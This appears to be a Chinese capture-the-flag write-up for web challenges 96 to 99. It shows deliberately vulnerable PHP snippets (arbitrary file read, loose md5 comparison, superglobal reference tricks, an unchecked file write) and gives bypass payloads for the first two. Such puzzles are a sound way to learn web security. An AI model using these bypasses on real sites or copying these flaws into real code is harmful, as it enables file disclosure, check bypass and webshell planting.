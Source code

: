 

### web96

```php
if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }
```

这个题不能等于`flag.php`

```Python
?u=./flag.php
?u=/var/www/html/flag.php
#还可以使用类似文件包含的语句
```



### web97

```php
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
```

md5相关内容了，这里直接使用数组绕过了



### web98

```php
include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);
```



### web99

```php
$allow = array();   //新建一个数组
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i)); //相当于入栈
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}
```
